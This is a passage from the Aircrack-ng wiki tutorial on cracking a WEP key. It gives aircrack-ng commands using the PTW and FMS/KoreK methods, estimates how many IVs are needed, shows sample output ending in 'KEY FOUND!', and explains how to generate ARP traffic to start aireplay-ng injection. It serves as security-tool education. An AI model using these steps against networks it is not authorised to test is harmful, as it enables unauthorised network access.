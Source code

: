 Where:

    -b 00:14:6C:7E:40:80 selects the one access point we are interested in. This is optional since when we originally captured the data, we applied a filter to only capture data for this one AP.
    output*.cap selects all files starting with “output” and ending in “.cap”.

To also use the FMS/Korek method, start another console session and enter:

aircrack-ng -K -b 00:14:6C:7E:40:80 output*.cap

Where:

    -K invokes the FMS/Korek method
    -b 00:14:6C:7E:40:80 selects the one access point we are interested in. This is optional since when we originally captured the data, we applied a filter to only capture data for this one AP.
    output*.cap selects all files starting with “output” and ending in “.cap”.

If you are using 1.0-rc1, add the option “-K” for the FMS/KoreK attack. (1.0-rc1 defaults to PTW.)

You can run this while generating packets. In a short time, the WEP key will be calculated and presented. You will need approximately 250,000 IVs for 64 bit and 1,500,000 IVs for 128 bit keys. If you are using the PTW attack, then you will need about 20,000 packets for 64-bit and 40,000 to 85,000 packets for 128 bit. These are very approximate and there are many variables as to how many IVs you actually need to crack the WEP key.

Here is what success looks like:

                                              Aircrack-ng 0.9
 
 
                              [00:03:06] Tested 674449 keys (got 96610 IVs)
 
 KB    depth   byte(vote)
  0    0/  9   12(  15) F9(  15) 47(  12) F7(  12) FE(  12) 1B(   5) 77(   5) A5(   3) F6(   3) 03(   0) 
  1    0/  8   34(  61) E8(  27) E0(  24) 06(  18) 3B(  16) 4E(  15) E1(  15) 2D(  13) 89(  12) E4(  12) 
  2    0/  2   56(  87) A6(  63) 15(  17) 02(  15) 6B(  15) E0(  15) AB(  13) 0E(  10) 17(  10) 27(  10) 
  3    1/  5   78(  43) 1A(  20) 9B(  20) 4B(  17) 4A(  16) 2B(  15) 4D(  15) 58(  15) 6A(  15) 7C(  15) 
 
                       KEY FOUND! [ 12:34:56:78:90 ] 
      Probability: 100%

Notice that in this case it took far less then the estimated 250,000 IVs to crack the key. (For this example, the FMS/KoreK attack was used.)
General Troubleshooting

    Be sure to read all the documentation on the Wiki for the various commands used in this tutorial.
    See Tutorial: I am injecting but the IVs don't increase

Generating ARPs

In order for this tutorial to work, you must receive at least one ARP packet. On your home network, here is an easy way to generate an ARP packet. On a wired or wireless PC, ping a non-existent IP on your home LAN. A wired PC means a PC connected to your LAN via an ethernet cable. Lets say your home LAN address space is 192.168.1.1 through 192.168.1.254. Pick an IP between 1 and 254 which is not assigned to a network device. For example, if the IP 192.168.1.213 is not being used then “ping 192.168.1.213”. This will cause an ARP to be broadcast via your wireless access point and in turn, this will kick off the reinjection of packets by aireplay-ng.
simple_wep_crack.txt · Last modified: 2010/08/29 19:41 by mister_x
Page Tools

    Show pagesource
    Old revisions
    Backlinks
    Back to top

